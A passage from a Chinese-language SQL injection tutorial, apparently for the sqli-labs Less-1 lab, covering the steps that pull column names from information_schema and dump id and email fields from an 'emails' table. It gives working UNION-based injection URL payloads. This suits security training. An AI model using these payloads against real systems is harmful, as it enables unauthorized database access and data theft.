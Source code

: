 ## 第六步 - 爆列名

基于表名使用`column_name`爆出列名，此时数据源为`information_schema.columns`，位置在`table_name='表名'(记得给表名加单引号)`

最终构造 Payload 如下，可以获取到 id，email\_id 两个字段

```php
http://127.0.0.22/Less-1/?id=-1'union select 1,2,group_concat(column_name) from information_schema.columns where table_name='emails' %23
```

![](assets/1707473863-91c1ec6f6dc9402512a74774be816bbd.png)

## 第七步 - 爆信息

使用列名爆敏感信息，直接 from 表名即可，这里需要使用`group_concat(concat_ws())`实现数据的完整读取，`group_concat()`函数在前面几步就接触过，主要是使数据在一列中输出

这就带来了一个问题，如果直接把列放入`group_concat()`函数，列间的界限就不清晰了，`concat_ws()`就是为了区分列的界限所使用的，其语法如下：

```php
concat_ws('字符',字段1,字段2,.....)
```

最终我们便可以构造出获取数据的 Payload：

```php
http://127.0.0.22/Less-1/?id=-1'union select 1,2,group_concat(concat_ws('-',id,email_id)) from emails %23
```

